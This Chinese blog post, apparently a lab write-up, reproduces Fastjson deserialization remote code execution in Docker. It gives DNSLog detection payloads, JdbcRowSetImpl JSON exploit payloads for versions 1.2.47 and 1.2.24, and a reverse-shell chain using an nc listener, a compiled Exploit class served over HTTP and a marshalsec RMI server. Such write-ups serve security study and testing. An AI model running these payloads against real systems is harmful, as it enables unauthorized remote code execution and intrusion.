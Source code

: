 # Fastjson反序列化




## 简介

fastjson 是阿里巴巴的开源JSON解析库，它可以解析 JSON 格式的字符串，支持将 Java Bean 序列化为 JSON 字符串，也可以从 JSON 字符串反序列化到 JavaBean。可以通过反序列化导致远程命令执行。





## 漏洞检测方法

### DNSLog回显

下面有多个请求，分别放到请求数据包部分(可能某个不适用, 多试几个)，通过构造DNS解析来判断是否是Fastjson，Fastjson在解析下面这些Payload时会取解析val的值，从而可以**在dnslog接收到回显**，**以此判断是不是Fastjson**

```json
{"a":{"@type":"java.net.Inet4Address","val":"xxx.dnslog.cn"}}

{"@type":"java.net.Inet4Address","val":"xxx.dnslog.cn"}
{"@type":"java.net.Inet6Address","val":"xxx.dnslog.cn"}
{"@type":"java.net.InetSocketAddress"{"address":,"val":"xxx.dnslog.cn"}}
{"@type":"com.alibaba.fastjson.JSONObject", {"@type": "java.net.URL", "val":"xxx.dnslog.cn"}}""}
{{"@type":"java.net.URL","val":"xxx.dnslog.cn"}:"aaa"}
Set[{"@type":"java.net.URL","val":"xxx.dnslog.cn"}]
Set[{"@type":"java.net.URL","val":"xxx.dnslog.cn"}
{{"@type":"java.net.URL","val":"xxx.dnslog.cn"}:0
```



### 增加key

Java语言中常用的Json处理主要是Fastjson和Jackson，相对而言，Jackson比较严格，强制Key和JavaBean属性对齐，只能少Key不能多Key，所以可以通过增加一个Key看响应包会不会报错来判断。



## 利用复现

这里用的docker环境

<img src="https://geoer666-1257264766.cos.ap-beijing.myqcloud.com/fj1.jpg"></img>



1.查看数据包，可以用上面的`漏洞检测`的方法来判断

<img src="https://geoer666-1257264766.cos.ap-beijing.myqcloud.com/fj2.jpg"></img>





2.vps用nc监听端口8888

```bash
nc -lvvp 8888
```



EXP地址：https://github.com/CaijiOrz/fastjson-1.2.47-RCE

3.修改exp中反弹shell的服务器地址和为我们的

<img src="https://geoer666-1257264766.cos.ap-beijing.myqcloud.com/fj3.jpg"></img>



4.使用javac进行编译，然后会生成一个Exploit.class文件

```bash
javac Exploit.java
```

<img src="https://geoer666-1257264766.cos.ap-beijing.myqcloud.com/fj4.jpg"></img>



5.在Exploit.class的目录下开启python的简单http服务，相当于访问就能下载

```bash
python -m SimpleHTTPServer 8080
```

<img src="https://geoer666-1257264766.cos.ap-beijing.myqcloud.com/fj5.jpg"></img>

6.执行下面的命令开启RMI/LDAP服务

```bash
java -cp marshalsec-0.0.3-SNAPSHOT-all.jar marshalsec.jndi.RMIRefServer "http://192.168.43.102:8080/#Exploit" 9999	#8080是前面SimpleHTTPServer的端口

```

<img src="https://geoer666-1257264766.cos.ap-beijing.myqcloud.com/fj6.jpg"></img>







7.构造exp请求包

```json
# 1.2.47以下版本
{
    "a":{
        "@type":"java.lang.Class",
        "val":"com.sun.rowset.JdbcRowSetImpl"
    },
    "b":{
        "@type":"com.sun.rowset.JdbcRowSetImpl",
        "dataSourceName":"rmi://192.168.43.102:9999/Exploit",
        "autoCommit":true
    }
}







# 1.2.24以下版本
{
    "b":{
        "@type":"com.sun.rowset.JdbcRowSetImpl",
        "dataSourceName":"rmi://同上类文件地址:9999/TouchFile",
        "autoCommit":true
    }
}

```



8.构造好的请求包发送如下，注意：Content-type格式要`json`，并且是`post`请求

```bash
Content-type: application/json
```

<img src="https://geoer666-1257264766.cos.ap-beijing.myqcloud.com/fj7.jpg"></img>



9.接收到反弹回来的shell

<img src="https://geoer666-1257264766.cos.ap-beijing.myqcloud.com/fj8.jpg"></img>





参考：https://www.naraku.cn/posts/86.html



---

> 作者: [剑胆琴心](http://shuai06.github.io)  
> URL: https://shuai06.github.io/fastjson%E5%8F%8D%E5%BA%8F%E5%88%97%E5%8C%96%E5%AE%9E%E9%AA%8C/  

